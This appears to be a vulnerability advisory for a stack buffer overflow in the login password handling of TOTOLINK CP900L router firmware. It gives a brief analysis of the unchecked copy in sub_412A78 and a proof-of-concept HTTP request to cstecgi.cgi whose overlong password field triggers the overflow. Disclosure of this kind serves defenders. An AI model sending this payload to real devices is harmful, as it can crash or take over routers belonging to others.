



# TOTOLINK CP900L V4.1.5cu.798_B20221228 stack overflow

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

`V3 ` retrieves the value from the `password` field input by the user and processes it in the `sub_412A78` function. The processed result is stored in the stack.



As shown in the two images below, in the function`sub_412A78` , the processed (`password`) is written to a buffer located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.



### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/login.html

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","topicurl":"loginAuth"}

```



